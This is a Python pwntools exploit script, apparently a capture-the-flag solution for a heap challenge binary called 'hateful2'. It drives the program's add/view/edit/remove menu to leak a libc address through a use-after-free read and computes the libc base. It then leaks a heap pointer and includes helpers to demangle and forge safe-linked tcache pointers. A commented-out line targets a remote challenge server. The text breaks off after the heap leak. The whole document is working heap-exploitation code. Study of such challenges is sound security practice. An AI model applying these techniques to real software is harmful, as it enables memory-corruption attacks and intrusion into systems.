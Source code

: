 ```py
from typing import Optional
from pwn import *

# context.log_level = "debug"
context.terminal = ["ghostty", "-e"]
context.binary = "./hateful2_patched"

# io = gdb.debug("./hateful2_patched", """
#     c
# """)
#io = remote("52.59.124.14", 5022)
io = process()

libc = ELF("./libc.so.6")
libc_rop = ROP("./libc.so.6")

def add(index: int, message: bytes, length: Optional[int] = None) -> None:
    if length is None:
        length = len(message) + 1
    io.sendlineafter(b">> ", b"1")
    io.sendlineafter(b"Index: ", str(index).encode())
    io.sendlineafter(b"Size: ", str(length).encode())
    io.sendafter(b">> ", message)

def view(index: int) -> bytes:
    io.sendlineafter(b">> ", b"3")
    io.sendlineafter(b"Index: ", str(index).encode())
    return io.readuntil(b"0. ", drop=True).strip().split(b": ")[1]

def edit(index: int, message: bytes) -> None:
    io.sendlineafter(b">> ", b"2")
    io.sendlineafter(b"Index: ", str(index).encode())
    io.sendlineafter(b">> ", message)

def remove(index: int) -> None:
    io.sendlineafter(b">> ", b"4")
    io.sendlineafter(b"Index: ", str(index).encode())

def demangle(obfus_ptr: int) -> int:
    t = (obfus_ptr >> 12) ^ obfus_ptr
    return (t >> 24) ^ t

def mangle(target: int, chunk_addr: int) -> int:
    return target ^ (chunk_addr >> 12)

add(0, b"A" * 0x500)
add(1, b"A" * 8)
remove(0)
libc_leak = u64(view(0).ljust(8, b"\x00"))
log.success(f"{libc_leak = :#0x}")
libc_base = libc_leak - 0x1d2cc0
log.success(f"{libc_base = :#0x}")

add(0, b"AAAA")
add(1, b"BBBB")
add(2, b"CCCC")
remove(0)
remove(1)
remove(2)

heap_leak = u64(view(2).ljust(8, b"\x00"))
log.success(f"{heap_leak = :#0x}")
heap_leak_demangled = demangle(heap_leak)
```